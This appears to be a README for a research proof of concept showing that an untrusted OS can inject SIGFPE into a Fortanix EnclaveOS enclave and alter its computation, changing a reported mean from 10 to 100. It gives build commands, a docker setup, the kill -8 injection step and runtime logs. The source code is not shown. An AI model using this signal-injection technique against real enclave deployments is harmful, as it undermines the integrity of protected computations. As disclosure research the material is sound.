 Our attack shows that the signal interface exposed to the untrusted OS can be used to compromise the execution and data integrity of enclaves. 
In our PoC we demonstrate the effect with a simple example that changes the mean of a computation. 

compile signal.c
```
gcc -o signal signal.c
```
and create the docker container
```
docker build -f signal.dockerfile -t <registry>/<personal-path>/signal-hub:latest .
```
follow the [guide](https://support.fortanix.com/hc/en-us/articles/360042965552-Using-Fortanix-Confidential-Computing-Manager-to-Build-an-Enclave-OS-Application-from-Scratchn) to create an enclave OS application.

Once the application runs send SIGFPE to the **enclaveos-runner** with

```
kill -8 <enclaveos-runner PID>
```
The signal arrives at the process and the respective handler is executed
```
[...]
# Generated by enclaveos-signer

sgx.sigfile = file:/tmp/toolserver-080lfxqo/app.sig
sgx.sigfile2 = file:/tmp/toolserver-080lfxqo/app.sig2
Fortanix(R) EnclaveOS Runtime Encryption Platform 3.36.1941-EM
Copyright 2017-2023 Fortanix, Inc. All rights reserved.
/opt/fortanix/enclave-os/default_cert/app_private.pem(key) file created
/opt/fortanix/enclave-os/default_cert/app_public.pem(cert) file created
Waiting...
In SIGFPE handler
New mean is : 100
```
without the signal handler and waiting we observe the following output
```
[...]
# Generated by enclaveos-signer

sgx.sigfile = file:/tmp/toolserver-080lfxqo/app.sig
sgx.sigfile2 = file:/tmp/toolserver-080lfxqo/app.sig2
Fortanix(R) EnclaveOS Runtime Encryption Platform 3.36.1941-EM
Copyright 2017-2023 Fortanix, Inc. All rights reserved.
/opt/fortanix/enclave-os/default_cert/app_private.pem(key) file created
/opt/fortanix/enclave-os/default_cert/app_public.pem(cert) file created
New mean is : 10
```
 Note that, to simplify the PoC we busy wait in the victim enclave process for the signal, instead of timing the signal injection perfectly. 